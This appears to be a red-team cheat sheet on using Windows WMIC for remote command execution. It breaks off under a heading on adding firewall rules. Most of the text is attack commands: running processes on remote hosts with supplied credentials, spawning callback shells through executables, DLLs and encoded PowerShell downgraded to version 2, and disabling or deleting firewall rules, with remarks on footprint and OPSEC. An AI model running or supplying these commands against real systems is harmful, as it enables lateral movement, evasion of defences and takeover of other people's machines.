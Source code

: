# Windows Management Instrumentation Command line (WMIC)

## 01 - Command Prompt

### 1.1 - Usage

- Execute a WMIC with commands remotely (You'll be relying on this a lot and it leaves a little footprint)

```
C:\> where /r C:\ wmic.exe

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "<commands>"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] win32_process call create "C:\path\to\shell.exe"
```

### 1.2 - Use Cases

#### 1.2.1 - Spawn Callback Shells

```
C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "cmd.exe /c <commands>"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "C:\path\to\shell.exe"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "rundll32 C:\path\to\shell.dll"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "C:\Windows\System32\WindowsPowershell\v1.0\powershell -v 2 -enc <base64_encoded>"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -v 2 -enc <base64_encoded>"
```

#### 1.2.2 - Firewalls

- Disabling firewall rules (not recommended for OPSEC)

`C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "cmd.exe /c netsh advfirewall set allprofiles state off"`

- Deleting a firewall rule

`C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "cmd.exe /c netsh advfirewall firewall delete rule name=\"<rule_name>\""`

- Adding firewall rules
